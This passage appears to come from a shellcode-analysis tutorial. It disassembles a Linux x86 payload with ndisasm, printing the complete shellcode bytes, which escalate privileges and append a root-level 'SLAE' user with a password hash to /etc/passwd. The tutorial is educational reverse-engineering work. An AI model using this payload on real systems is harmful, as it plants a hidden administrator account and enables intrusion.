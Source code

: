 Instead of gdb for analysis this time, we will be using ndisasm.  Let's run ndisasm with our shellcode as the input to see what happens.
```
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x53\x4c\x41\x45\x3a\x41\x7a\x72\x63\x6e\x7a\x50\x59\x6c\x66\x72\x32\x45\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E822000000        call dword 0x4d
0000002B  53                push ebx
0000002C  4C                dec esp
0000002D  41                inc ecx
0000002E  45                inc ebp
0000002F  3A417A            cmp al,[ecx+0x7a]
00000032  7263              jc 0x97
00000034  6E                outsb
00000035  7A50              jpe 0x87
00000037  59                pop ecx
00000038  6C                insb
00000039  667232            o16 jc 0x6e
0000003C  45                inc ebp
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
As you can see, it takes the shellcode and converts it in to readable assembly.  The 2nd column is actually our opcodes!
